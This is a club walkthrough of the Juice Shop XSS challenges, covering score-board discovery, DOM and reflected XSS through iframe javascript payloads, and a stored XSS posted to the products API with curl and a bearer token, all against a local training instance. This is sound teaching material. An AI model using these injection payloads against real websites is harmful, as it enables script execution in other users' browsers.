Title: OWASP Juice Shop XSS Walkthrough
Preview: A walkthrough for all of the XSS problems in OWASP's Juice Shop
Date: 2023-09-26
Tags: nkcyber, cybersecurity

This writeup is to help [NKCyber](https://www.nku.edu/academics/informatics/beyond/student-organizations/nkcyber.html) Club Members walk through the steps for the first 5 solutions to the XSS section of [OWASP Juice Shop](https://owasp.org/www-project-juice-shop/). See [this page](https://zack.fyi/blog/juice-shop.html) for instructions on administering OWASP's Juice Shop.

# Solutions

## Score Board

This challenge is a prerequisite for all others, as this challenge ensures you are able to see the score board. 

Note that there are many challenges available on this platform, but we are only doing a small selection today.

Your first view of this wonderful website should be something like this:


There are so many juice products that we could buy. However, beyond this innocent first page, this is secretly a platform for honing your hacking expertise.

If you look at the URL, you should see something like `http://localhost:3000/#/`, ending with a `#`. This gives us an important piece of information about the way the website is built: they must be using a Single Page App framework.

Anything that follows a `#` in a URL is not part of the server path, but is rather a '[fragment identifier](https://developer.mozilla.org/en-US/docs/Web/API/URL/hash)', originally intended to jump to a specific element id in your webpage.

However, a certain age of web frameworks developed before the browser history API was standardized rely on taking the data from the fragment identifier, and routing you to the correct page on the client. As such, we know that this Juice Shop must have a list of routes that you can access shipped to the client, so that the web framework knows what to do with any data that comes after the `#`. (For reference, [Juice Shop is running Angular 9](https://owasp.org/2020/03/17/juice-shop-v10).)

As such, we can open up the developer tools with `Right Click -> Inspect` (or however your prefer), and then we can navigate to the **sources** tab.



From there, we can search for files that specify paths to navigate to:


From there, we can learn about some paths that might not have been intended to view:


From there, we can navigate to `/#/score-board` to view the secret score board and get the flag.


It will now be listed in your sidebar for easy access.



## DOM XSS

First, let's get on the same page with some definitions from the creators of the Juice Shop:

> **Cross-Site Scripting** (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.
>
> &mdash; <cite>[OWASP's Definition of XSS](https://owasp.org/www-community/attacks/xss/)</cite>

> **DOM Based XSS** [...] is an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an “unexpected” manner. That is, the page itself (the HTTP response that is) does not change, but the client side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment.
>
> &mdash; <cite>[OWASP's Definition of DOM Based XSS](https://owasp.org/www-community/attacks/DOM_Based_XSS)</cite>

So, we know that we're going to have to:

1. Give the web framework a request with a payload
2. Get make it directly insert that payload into the webpage, and execute it.

Let's take a look at the most accessible text entry field, the search bar:


When we search for something, the result is prominently displayed at the top of the screen:


So, the server will take whatever we text give it, and insert it into the page. Let's see if we can give it HTML tags, with something like:

```html
<h1>
    This should be a header
</h1>
```


Woah, would you look at that. We can enter in raw HTML tags.

Now, we just need to enter in the code indicated in the problem description:

```html
<iframe src="javascript:alert(`xss`)">
```


## Bonus XSS

In a very similar solution, you should be able to enter the specified code:

```html
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```

into the search bar:



and see the result pop up on the page to get the flag:



The takeaway here is that `iframe` elements can be used to load dynamic content, potentially including malicious scripts.

**Troubleshooting:**

If you're not receiving the flag, ensure you're navigating to the correct url in the iframe. You might want to directly copy this from the Juice Shop Score Board.

## Reflected XSS Attack

> Reflected attacks are those where the injected script is reflected off the web server, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request. Reflected attacks are delivered to victims via another route, such as in an e-mail message, or on some other website. When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable web site, which reflects the attack back to the user’s browser. The browser then executes the code because it came from a “trusted” server. Reflected XSS is also sometimes referred to as Non-Persistent or Type-I XSS (the attack is carried out through a single request / response cycle).
>
> &mdash; <cite>[OWASP's Definition of Reflected XSS Attacks](https://owasp.org/www-community/attacks/xss/#reflected-xss-attacks)</cite>

So, we know that we're going to have to:

1. Give the server a request with a payload
2. Get a response that directly inserts that payload into the webpage, and executes it.

Note that we don't need the server to actually store the data.

I don't know the solution yet, so let's just try a few injection locations to start.

Let's create an account at `/#/login`. Then, we navigate to `/#/register`, because we're not a customer.


Now that we're logged in, we can add items to our basket:



Now, we can review products:



And it'll show up!



Can you do HTML formatting?


Unfortunately not :(

At this point, I checked out [this solution on GitHub](https://github.com/refabr1k/owasp-juiceshop-solutions/blob/master/Level1/reflected-xss.md#reflected-xss), and found that you need to order an item in the Juice Shop. I've added this as a hint for the competition, because I think there's a lot of surface area on the application, that makes this attack vector less than obvious.

Basically, you need to add an item to your cart.

You'll be prompted to add an address:



And then you can add your payment information:




Now we can place our order:



And we'll see that the "Thank you for your purchase screen" is at a URL with a tracking ID: `/#/order-completion/3f7b-e60171eddcbd36a5`.

From there, we can navigate to `/#/track-result/new?id=3f7b-e60171eddcbd36a5`, and see that the text is *reflected* into the page:


Navigating to `/#/track-result/new?id=<i>test</i>` shows us text in italic, so that's a good indication that the input is not sanitized. Entering the payload:

```html
<iframe src="javascript:alert(`xss`)">
```

into the URL: `/#/track-result/new?id=%3Ciframe%20src=%22javascript:alert(%60xss%60)%22%3E`

Gives us the flag. (Note this URL is represented using URL encoded characters. Your browser will likely do this automatically.)

## API Only XSS

So, now we need to perform a *persisted* XSS attack.

> **Stored attacks** are those where the injected script is permanently stored on the target servers, such as in a database, in a message forum, visitor log, comment field, etc. The victim then retrieves the malicious script from the server when it requests the stored information. Stored XSS is also sometimes referred to as Persistent or Type-II XSS.
>
> &mdash; <cite>[OWASP's Definition for Stored XXS Attacks](https://owasp.org/www-community/attacks/xss/#stored-xss-attacks)</cite>

And, the free hint for this problem is [an Angular hook](https://angular.io/api/core/AfterViewInit).

<details>
<summary>View full code</summary>

```typescript
ngAfterViewInit () {
	const products = this.productService.search('')
	const quantities = this.quantityService.getAll()
	forkJoin([quantities, products]).subscribe(([quantities, products]) => {
		const dataTable: TableEntry[] = []
		this.tableData = products
		this.trustProductDescription(products)
		for (const product of products) {
			dataTable.push({
				name: product.name,
				price: product.price,
				deluxePrice: product.deluxePrice,
				id: product.id,
				image: product.image,
				description: product.description
			})
		}
		for (const quantity of quantities) {
			const entry = dataTable.find((dataTableEntry) => {
				return dataTableEntry.id === quantity.ProductId
			})
			if (entry === undefined) {
				continue
			}
			entry.quantity = quantity.quantity
		}
		this.dataSource = new MatTableDataSource(dataTable)
		for (let i = 1; i <= Math.ceil(this.dataSource.data.length / 12); i++) {
			this.pageSizeOptions.push(i * 12)
		}
		this.paginator.pageSizeOptions = this.pageSizeOptions
		this.dataSource.paginator = this.paginator
		this.gridDataSource = this.dataSource.connect()
		this.resultsLength = this.dataSource.data.length
		this.filterTable()
		this.routerSubscription = this.router.events.subscribe(() => {
			this.filterTable()
		})
		if (window.innerWidth < 2600) {
			this.breakpoint = 4
			if (window.innerWidth < 1740) {
				this.breakpoint = 3
				if (window.innerWidth < 1280) {
					this.breakpoint = 2
					if (window.innerWidth < 850) {
						this.breakpoint = 1
					}
				}
			}
		} else {
			this.breakpoint = 6
		}
		this.cdRef.detectChanges()
	}, (err) => { console.log(err) })
}

trustProductDescription (tableData: any[]) {
	for (let i = 0; i < tableData.length; i++) {
		tableData[i].description = this.sanitizer.bypassSecurityTrustHtml(tableData[i].description)
	}
}
```

</details>

So, we can see that the HTML is trusted in the table description by `trustProductDescription`. This is a good place to attack.

Looking at the page `/#/order-history`, we search for `/api` in the `main.js` sources, and we can find that `/api/Products` is where all of the products come from.

I personally solved this using cURL, as shown below, but I also [saw people use Burp Suite](https://youtu.be/M0a5DIQhRVI), which looked pretty powerful. That's definitely something I need to practice more. John Hammond has a good [introduction to Burp Suite](https://youtu.be/G3hpAeoZ4ek) on YouTube. 

So, I first got the results of the endpoint:

```bash
$ curl -Ssl http://localhost:3000/api/Products | head 
{"status":"success","data":[{"id":1,"name":"Apple Juice (1000ml)","description":"The all-time classic.","price":1.99,"deluxePrice":0.99,"image":"apple_juice.jpg","createdAt":"2023-09-26T23:12:11.190Z","updatedAt":"2023-09-26T23:12:11.190Z","deletedAt":null}
...
```

ok, looks good. Can we post to it?

I assume the data will take the form:

```json
{
      "id": number,
      "name": string,
      "description": string,
      "price": number,
      "deluxePrice": number,
      "image": string,
      "createdAt": datestring,
      "updatedAt": datestring,
      "deletedAt": datestring?
}
```

So we get the command:

```bash
curl -XPOST -H "Content-type: application/json" -d '{
      "id": 123456,
      "name": "TEST <b>BOLD</b>",
      "description": "TEST <b>BOLD</b>",
      "price": 1,
      "deluxePrice": 2,
      "image": "TEST <b>BOLD</b>",
      "createdAt":"2023-09-26T23:12:11.190Z",
      "updatedAt":"2023-09-26T23:12:11.190Z",
      "deletedAt":null
}' 'http://localhost:3000/api/Products'
```

We get back a response that includes:

```
<em>401</em> UnauthorizedError: No Authorization header was found</h2>
```

At this point, we get the flag for "Error Handling (Provoke an error that is neither very gracefully nor consistently handled.)". If only that's what I wanted.

We can look in our network tab under "headers", and see the authorization header that we're currently using:



We see that we have something like "Authorization: Bearer {token}"

We can copy this into our cURL command, and add a header just like our `--header "Content-Type: application/json"`:

```bash
curl -XPOST -H "Content-type: application/json" -H "Authorization: Bearer {token}" -d '{
      "id": 123456,
      "name": "TEST <b>BOLD</b>",
      "description": "TEST <b>BOLD</b>",
      "price": 1,
      "deluxePrice": 2,
      "image": "TEST <b>BOLD</b>",
      "createdAt":"2023-09-26T23:12:11.190Z",
      "updatedAt":"2023-09-26T23:12:11.190Z",
      "deletedAt":null
}' 'http://localhost:3000/api/Products'
```

and we get back something like: 

```json
{
  "status": "success",
  "data": {
    "id": 123456,
    "name": "TEST <b>BOLD</b>",
    "description": "TEST <b>BOLD</b>",
    "price": 1,
    "deluxePrice": 2,
    "image": "TEST <b>BOLD</b>",
    "createdAt": "2023-09-26T23:12:11.190Z",
    "updatedAt": "2023-09-27T01:24:17.774Z",
    "deletedAt": null
  }
}
```

So, now we can enter the payload into the description (remembering to escape the quotes):

```
<iframe src="javascript:alert(`xss`)">
```

```bash
curl -XPOST -H "Content-type: application/json" -H "Authorization: Bearer {token}" -d '{
      "id": 123458,
      "name": "<iframe src=\"javascript:alert(`xss`)\">",
      "description": "<iframe src=\"javascript:alert(`xss`)\">",
      "price": 1,
      "deluxePrice": 2,
      "image": "TEST <b>BOLD</b>",
      "createdAt":"2023-09-26T23:12:11.190Z",
      "updatedAt":"2023-09-26T23:12:11.190Z",
      "deletedAt":null
}' 'http://localhost:3000/api/Products'
```

And we get our flag.

# Conclusion

These are the solutions for the first 5 problems out of 10. If I have more time, I'll solve the other 50% on my own.

If you're looking for solutions, you might want to check out these writeups:

- <https://github.com/refabr1k/owasp-juiceshop-solutions>
- <https://help.owasp-juice.shop/appendix/solutions.html>
